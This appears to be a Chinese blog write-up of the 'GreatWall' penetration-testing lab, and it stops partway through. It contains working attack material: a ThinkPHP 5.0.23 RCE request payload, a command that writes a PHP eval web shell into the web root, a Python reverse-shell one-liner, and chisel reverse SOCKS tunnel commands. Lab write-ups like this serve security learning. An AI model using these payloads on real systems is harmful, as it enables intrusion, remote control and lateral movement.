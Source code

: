 ```yaml
---
title: 春秋云境笔记 - 1
date: 2025-04-09 15:57:00
tags: [Web, 渗透]
categories: 渗透
---
```


GreatWall / *
<!--more-->

## GreatWall

用 fscan 扫一下，直接就扫出是 tp5 的漏洞

```plain
[2025-04-12 15:40:37] [SUCCESS] 目标: http://8.130.145.86:8080
  漏洞类型: poc-yaml-thinkphp5023-method-rce
  漏洞名称: poc1
  详细信息:
        links:https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce
```

用 PoC 试了一下，可以 RCE，对着路由 `/index.php?s=captcha` 发一个 POST，带上如下参数：

```bash
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

执行 `pwd` 看到当前目录为 `/var/www/html/background/public`

执行以下命令写一个 PHP 马，注意要使用单引号，双引号的话 `$_POST` 变量会被解析掉，导致写的马不对

```bash
echo '<?php @eval($_POST[cmd]);?>' > /var/www/html/background/public/test.php
```

用蚁剑连接，在根目录拿到 flag01：`flag{176f49b6-147f-4557-99ec-ba0a351e1ada}`

再写个 python 反弹 shell 的脚本：

```python
import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);
```

然后在蚁剑的终端里执行（蚁剑这个终端就怪怪的）
用蚁剑把 fscan 传上去，执行 `ip a` 看一下地址

搞个 [chisel](https://github.com/jpillora/chisel)，在 VPS 上执行

```bash
./chisel_1.10.1_linux_amd64 server -p 6667 --reverse
```

```bash
./chisel client *.*.*.*:6667 R:0.0.0.0:10000:socks &
```

// To be continued...

## 参考

[2024 - GreatWall](https://tryhackmyoffsecbox.github.io/Target-Machines-WriteUp/docs/Yunjing/dimension/GreatWall/)
